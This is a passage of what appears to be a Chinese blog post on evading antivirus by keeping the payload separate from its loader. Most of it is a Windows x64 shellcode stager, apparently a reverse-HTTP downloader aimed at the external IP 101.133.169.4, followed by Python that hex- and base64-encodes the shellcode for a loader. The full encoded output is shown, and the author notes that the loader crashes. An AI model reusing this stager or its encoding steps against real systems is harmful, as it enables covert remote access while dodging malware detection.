x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x34\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x37\x2e\x30\x62\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x30\x29\x0d\x0a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x30\x31\x2e\x31\x33\x33\x2e\x31\x36\x39\x2e\x34\x00\x00\x00\x00\x00'
	print("转化为hex:")
	import binascii
	
	a = binascii.hexlify(s)
	print(a)
	print("将结果base64编码：")
	b = str(base64.b64encode(a), "utf-8")
	print(b)
	print("解码回字符串：")
	k = base64.b64decode(b).decode('utf-8', "ignore")
	print(k)
	print(binascii.unhexlify(k).decode('utf-8', 'ignore'))
	print(type(binascii.unhexlify(k).decode('utf-8', 'ignore')))
	shellcode = bytearray(binascii.unhexlify(k).decode('utf-8', 'ignore'), encoding='utf-8')
	print(shellcode)
	print(type(shellcode))

输出结果：

	转化为hex:
	b'fc4883e4f0e8c8000000415141505251564831d265488b5260488b5218488b5220488b7250480fb74a4a4d31c94831c0ac3c617c022c2041c1c90d4101c1e2ed524151488b52208b423c4801d0668178180b0275728b80880000004885c074674801d0508b4818448b40204901d0e35648ffc9418b34884801d64d31c94831c0ac41c1c90d4101c138e075f14c034c24084539d175d858448b40244901d066418b0c48448b401c4901d0418b04884801d0415841585e595a41584159415a4883ec204152ffe05841595a488b12e94fffffff5d6a0049be77696e696e65740041564989e64c89f141ba4c772607ffd54831c94831d24d31c04d31c94150415041ba3a5679a7ffd5eb735a4889c141b8500000004d31c9415141516a03415141ba57899fc6ffd5eb595b4889c14831d24989d84d31c9526800024084525241baeb552e3bffd54889c64883c3506a0a5f4889f14889da49c7c0ffffffff4d31c9525241ba2d06187bffd585c00f859d01000048ffcf0f848c010000ebd3e9e4010000e8a2ffffff2f7035477100354f2150254041505b345c505a58353428505e2937434329377d2445494341522d5354414e444152442d414e544956495255532d544553542d46494c452124482b482a00354f21502500557365722d4167656e743a204d6f7a696c6c612f342e302028636f6d70617469626c653b204d53494520372e30623b2057696e646f7773204e5420362e30290d0a00354f2150254041505b345c505a58353428505e2937434329377d2445494341522d5354414e444152442d414e544956495255532d544553542d46494c452124482b482a00354f2150254041505b345c505a58353428505e2937434329377d2445494341522d5354414e444152442d414e544956495255532d544553542d46494c452124482b482a00354f2150254041505b345c505a58353428505e2937434329377d2445494341522d5354414e444152442d414e544956495255532d544553542d46494c452124482b482a00354f2150254041505b345c505a58353428505e2937434329377d2445494341522d0041bef0b5a256ffd54831c9ba0000400041b80010000041b94000000041ba58a453e5ffd5489353534889e74889f14889da41b8002000004989f941ba129689e2ffd54883c42085c074b6668b074801c385c075d758585848050000000050c3e89ffdffff3130312e3133332e3136392e340000000000'
	将结果base64编码：
	ZmM0ODgzZTRmMGU4YzgwMDAwMDA0MTUxNDE1MDUyNTE1NjQ4MzFkMjY1NDg4YjUyNjA0ODhiNTIxODQ4OGI1MjIwNDg4YjcyNTA0ODBmYjc0YTRhNGQzMWM5NDgzMWMwYWMzYzYxN2MwMjJjMjA0MWMxYzkwZDQxMDFjMWUyZWQ1MjQxNTE0ODhiNTIyMDhiNDIzYzQ4MDFkMDY2ODE3ODE4MGIwMjc1NzI4YjgwODgwMDAwMDA0ODg1YzA3NDY3NDgwMWQwNTA4YjQ4MTg0NDhiNDAyMDQ5MDFkMGUzNTY0OGZmYzk0MThiMzQ4ODQ4MDFkNjRkMzFjOTQ4MzFjMGFjNDFjMWM5MGQ0MTAxYzEzOGUwNzVmMTRjMDM0YzI0MDg0NTM5ZDE3NWQ4NTg0NDhiNDAyNDQ5MDFkMDY2NDE4YjBjNDg0NDhiNDAxYzQ5MDFkMDQxOGIwNDg4NDgwMWQwNDE1ODQxNTg1ZTU5NWE0MTU4NDE1OTQxNWE0ODgzZWMyMDQxNTJmZmUwNTg0MTU5NWE0ODhiMTJlOTRmZmZmZmZmNWQ2YTAwNDliZTc3Njk2ZTY5NmU2NTc0MDA0MTU2NDk4OWU2NGM4OWYxNDFiYTRjNzcyNjA3ZmZkNTQ4MzFjOTQ4MzFkMjRkMzFjMDRkMzFjOTQxNTA0MTUwNDFiYTNhNTY3OWE3ZmZkNWViNzM1YTQ4ODljMTQxYjg1MDAwMDAwMDRkMzFjOTQxNTE0MTUxNmEwMzQxNTE0MWJhNTc4OTlmYzZmZmQ1ZWI1OTViNDg4OWMxNDgzMWQyNDk4OWQ4NGQzMWM5NTI2ODAwMDI0MDg0NTI1MjQxYmFlYjU1MmUzYmZmZDU0ODg5YzY0ODgzYzM1MDZhMGE1ZjQ4ODlmMTQ4ODlkYTQ5YzdjMGZmZmZmZmZmNGQzMWM5NTI1MjQxYmEyZDA2MTg3YmZmZDU4NWMwMGY4NTlkMDEwMDAwNDhmZmNmMGY4NDhjMDEwMDAwZWJkM2U5ZTQwMTAwMDBlOGEyZmZmZmZmMmY3MDM1NDc3MTAwMzU0ZjIxNTAyNTQwNDE1MDViMzQ1YzUwNWE1ODM1MzQyODUwNWUyOTM3NDM0MzI5Mzc3ZDI0NDU0OTQzNDE1MjJkNTM1NDQxNGU0NDQxNTI0NDJkNDE0ZTU0NDk1NjQ5NTI1NTUzMmQ1NDQ1NTM1NDJkNDY0OTRjNDUyMTI0NDgyYjQ4MmEwMDM1NGYyMTUwMjUwMDU1NzM2NTcyMmQ0MTY3NjU2ZTc0M2EyMDRkNmY3YTY5NmM2YzYxMmYzNDJlMzAyMDI4NjM2ZjZkNzA2MTc0Njk2MjZjNjUzYjIwNGQ1MzQ5NDUyMDM3MmUzMDYyM2IyMDU3Njk2ZTY0NmY3NzczMjA0ZTU0MjAzNjJlMzAyOTBkMGEwMDM1NGYyMTUwMjU0MDQxNTA1YjM0NWM1MDVhNTgzNTM0Mjg1MDVlMjkzNzQzNDMyOTM3N2QyNDQ1NDk0MzQxNTIyZDUzNTQ0MTRlNDQ0MTUyNDQyZDQxNGU1NDQ5NTY0OTUyNTU1MzJkNTQ0NTUzNTQyZDQ2NDk0YzQ1MjEyNDQ4MmI0ODJhMDAzNTRmMjE1MDI1NDA0MTUwNWIzNDVjNTA1YTU4MzUzNDI4NTA1ZTI5Mzc0MzQzMjkzNzdkMjQ0NTQ5NDM0MTUyMmQ1MzU0NDE0ZTQ0NDE1MjQ0MmQ0MTRlNTQ0OTU2NDk1MjU1NTMyZDU0NDU1MzU0MmQ0NjQ5NGM0NTIxMjQ0ODJiNDgyYTAwMzU0ZjIxNTAyNTQwNDE1MDViMzQ1YzUwNWE1ODM1MzQyODUwNWUyOTM3NDM0MzI5Mzc3ZDI0NDU0OTQzNDE1MjJkNTM1NDQxNGU0NDQxNTI0NDJkNDE0ZTU0NDk1NjQ5NTI1NTUzMmQ1NDQ1NTM1NDJkNDY0OTRjNDUyMTI0NDgyYjQ4MmEwMDM1NGYyMTUwMjU0MDQxNTA1YjM0NWM1MDVhNTgzNTM0Mjg1MDVlMjkzNzQzNDMyOTM3N2QyNDQ1NDk0MzQxNTIyZDAwNDFiZWYwYjVhMjU2ZmZkNTQ4MzFjOWJhMDAwMDQwMDA0MWI4MDAxMDAwMDA0MWI5NDAwMDAwMDA0MWJhNThhNDUzZTVmZmQ1NDg5MzUzNTM0ODg5ZTc0ODg5ZjE0ODg5ZGE0MWI4MDAyMDAwMDA0OTg5Zjk0MWJhMTI5Njg5ZTJmZmQ1NDg4M2M0MjA4NWMwNzRiNjY2OGIwNzQ4MDFjMzg1YzA3NWQ3NTg1ODU4NDgwNTAwMDAwMDAwNTBjM2U4OWZmZGZmZmYzMTMwMzEyZTMxMzMzMzJlMzEzNjM5MmUzNDAwMDAwMDAwMDA=
	解码回字符串：
	fc4883e4f0e8c8000000415141505251564831d265488b5260488b5218488b5220488b7250480fb74a4a4d31c94831c0ac3c617c022c2041c1c90d4101c1e2ed524151488b52208b423c4801d0668178180b0275728b80880000004885c074674801d0508b4818448b40204901d0e35648ffc9418b34884801d64d31c94831c0ac41c1c90d4101c138e075f14c034c24084539d175d858448b40244901d066418b0c48448b401c4901d0418b04884801d0415841585e595a41584159415a4883ec204152ffe05841595a488b12e94fffffff5d6a0049be77696e696e65740041564989e64c89f141ba4c772607ffd54831c94831d24d31c04d31c94150415041ba3a5679a7ffd5eb735a4889c141b8500000004d31c9415141516a03415141ba57899fc6ffd5eb595b4889c14831d24989d84d31c9526800024084525241baeb552e3bffd54889c64883c3506a0a5f4889f14889da49c7c0ffffffff4d31c9525241ba2d06187bffd585c00f859d01000048ffcf0f848c010000ebd3e9e4010000e8a2ffffff2f7035477100354f2150254041505b345c505a58353428505e2937434329377d2445494341522d5354414e444152442d414e544956495255532d544553542d46494c452124482b482a00354f21502500557365722d4167656e743a204d6f7a696c6c612f342e302028636f6d70617469626c653b204d53494520372e30623b2057696e646f7773204e5420362e30290d0a00354f2150254041505b345c505a58353428505e2937434329377d2445494341522d5354414e444152442d414e544956495255532d544553542d46494c452124482b482a00354f2150254041505b345c505a58353428505e2937434329377d2445494341522d5354414e444152442d414e544956495255532d544553542d46494c452124482b482a00354f2150254041505b345c505a58353428505e2937434329377d2445494341522d5354414e444152442d414e544956495255532d544553542d46494c452124482b482a00354f2150254041505b345c505a58353428505e2937434329377d2445494341522d0041bef0b5a256ffd54831c9ba0000400041b80010000041b94000000041ba58a453e5ffd5489353534889e74889f14889da41b8002000004989f941ba129689e2ffd54883c42085c074b6668b074801c385c075d758585848050000000050c3e89ffdffff3130312e3133332e3136392e340000000000    

最后一步出了问题，这个bytearray 传入shellcode loader 程序崩溃。

**分离免杀遇到不出网的情况比较棘手。需要更多的研究。**